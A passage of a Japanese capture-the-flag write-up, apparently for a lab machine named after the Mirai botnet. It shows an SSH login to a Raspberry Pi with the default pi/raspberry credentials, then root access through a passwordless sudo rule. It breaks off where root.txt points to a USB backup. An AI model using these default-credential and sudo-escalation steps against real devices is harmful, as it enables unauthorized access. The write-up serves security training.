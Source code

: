 Mirai という IoT 機器に感染するマルウェアがあったっぽいですね
感染の仕組みは単純でデフォルトのパスワードを使用していると感染するようです

ちょっと待てよ…？と思い、ラズパイのデフォルトの credential を[調べてみると](https://qiita.com/aryoa/items/86ddae2212c789ddece0)pi/raspberry ということがわかったので ssh してみると

```
kali@kali:~$ ssh pi@10.10.10.48
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ECDSA) to the list of known hosts.
pi@10.10.10.48's password: 
Permission denied, please try again.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.
pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)

```

ssh 接続できました。user.txt が取れます

## PE

```
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:                                                                                                                                                                                             
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                                                                                                                                 
                                                                                                                                                                                                                                           
User pi may run the following commands on localhost:                                                                                                                                                                                       
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
pi@raspberrypi:~/Desktop $ sudo bash
root@raspberrypi:/home/pi/Desktop# cd /
root@raspberrypi:/# cd root
root@raspberrypi:~# ls
root.txt
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...

```
